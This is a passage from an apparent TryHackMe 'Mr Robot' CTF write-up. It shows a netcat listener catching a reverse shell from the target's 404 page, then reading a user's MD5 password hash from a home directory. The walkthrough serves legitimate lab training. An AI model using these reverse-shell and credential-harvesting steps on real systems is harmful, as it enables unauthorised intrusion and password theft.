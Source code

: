 <a href="/assets/images/tryhackme/mr-robot-ctf/5.png"><img src="/assets/images/tryhackme/mr-robot-ctf/5.png"></a>

Set up our `netcat` listener.
```bash
$ nc -lnvp 9999
listening on [any] 9999 ...
```

Go to random page that triggers `404` page and we got our shell back.
```bash
$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.11.25.205] from (UNKNOWN) [10.10.250.224] 50305
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 03:55:09 up  1:17,  0 users,  load average: 0.02, 1.80, 3.78
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

## Escalation
Looking for interesting files. Got `robot` user password with md5.
```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Let's dehash it.
